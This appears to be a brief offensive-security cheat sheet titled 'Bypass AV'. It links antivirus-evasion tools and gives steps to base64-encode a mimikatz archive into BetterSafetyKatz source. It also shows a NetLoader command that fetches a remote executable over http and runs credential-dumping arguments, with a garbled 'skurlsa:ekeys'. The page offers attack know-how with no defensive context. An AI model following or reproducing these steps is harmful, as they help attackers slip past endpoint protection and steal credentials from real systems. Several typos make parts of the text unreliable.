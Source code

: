 ```yaml
---
layout: app
title: "Bypass AV"
tags: ["bypass","evassion", "av", "DefenderCheck", "Netloader"]

---
```


# DefenderCheck

[https://github.com/matterpreter/DefenderCheck](https://github.com/matterpreter/DefenderCheck)
[Out-CompressedDll](https://github.com/PowerShellMafia/PowerSploit/blob/master/ScriptModification/Out-CompressedDll.ps1)

# AV Bypass

## BetterSafetyKatz
1. Download the latest releafe of mimikatz_trunk.zip
2. Convert file to base64


```powershell
$filename = "c:\temp\mimikatz_trunk.zip"
[Convert]::TOBase64String([IO.File]::ReadAllBytes($filename)) | clip
```
3. Modify [SafetyKatz](https://github.com/Flangvik/BetterSafetyKatz/blob/master/SafetyKatz/Program.cs) with above value

# Netloader

[https://github.com/Flangvik/NetLoader](https://github.com/Flangvik/NetLoader)

## Example

```powershell
Loader.exe -path http://xxxxx.exe skurlsa:ekeys exit
```